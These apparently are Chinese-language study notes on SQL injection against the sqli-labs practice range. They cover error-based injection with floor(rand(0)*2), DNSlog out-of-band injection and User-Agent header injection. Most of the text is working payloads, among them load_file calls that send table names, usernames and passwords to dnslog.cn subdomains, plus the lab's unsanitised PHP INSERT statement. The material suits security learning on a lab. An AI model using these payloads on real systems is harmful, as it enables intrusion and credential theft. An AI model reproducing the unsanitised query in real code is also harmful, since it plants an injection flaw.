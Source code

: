 ```mysql
select concat_ws('~',(select database()),floor(rand()*2)) from users;
有多少用户就计算多少次，且结果随机
```

```mysql
select count(*),concat_ws('~',(select database()),floor(rand()*2)) as a from users group by a;
as别名，group by分组，count()汇总统计数量
rand()偶尔会出现报错，rand(0)固定报错，rand(1)不报错，原因：
当我们将count(*)去掉便不再报错，说明是在统计时出现错误
rand()函数进行分组group by和统计count()时可能会多次执行，导致键值key重复(不是很懂)
```

```sql
http://127.0.0.1/sql/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand(0)*2)) as x from information_schema.tables group by x--+
完整注入，爆表
```

### DNSlog注入

该注入方式同为盲注，但是其效率比布尔盲注和时间盲注的效率要高，**但使用该方法的前提是能够对目标进行文件访问的操作**

相关网址：

http://www.dnslog.cn/

http://admin.dnslog.link 

http://ceye.io

```mysql
http://192.168.88.133/sql/Less-9?id=1' and (select load_file(concat("//",(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.x49qnf.dnslog.cn/123')))--+
爆表名(修改limit后面的参数来控制输出第几个表名，如0,1爆出emails表，1,1爆出referers表，limit第二个参数是控制输出几行)
http://192.168.88.133/sql/Less-9?id=1' and (select load_file(concat("//",(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),'.x49qnf.dnslog.cn/123')))--+
爆列名
http://192.168.88.133/sql/Less-9?id=1' and (select load_file(concat("//",(select password from users limit 1,1),'.33g24w.dnslog.cn/123')))--+
http://192.168.88.133/sql/Less-9?id=1' and (select load_file(concat("//",(select username from users limit 1,1),'.33g24w.dnslog.cn/123')))--+
爆用户名和密码
```

### POST报头注入(HTTP头uagent注入)

当页面看不到明显变化，找不到注入点时，可以尝试报头注入(以Less-18为例，在对源代码的审计中发现check_input函数对输入的用户名和密码进行了检测，导致无法进行注入)

uagent，即User-Agent，中文名为用户代理，简称UA，它是一个特殊字符串头，使得服务器能够识别客户端使用的操作系统及版本、CPU类型、浏览器及版本、浏览器渲染引擎、浏览器语言、浏览器插件等。内容就是浏览器及版本信息，电脑信息等。常见用途为限制打开软件，浏览器，以及上网行为管理等。

```php
 $insert = "INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
在sqli-labs靶场的Less-18的源代码中有这么一串代码，登录成功后，会把'$uagent','$IP','$uname'的信息插入数据表'uagents'
首先要求登录成功，然后可以修改$uagent参数（没有做check_input检查），做报错注入（只能做报错注入），在插入信息时执行指令导致出错，反馈错误信息，登录后输出uagent信息包括报错信息，达到注入效果。
```
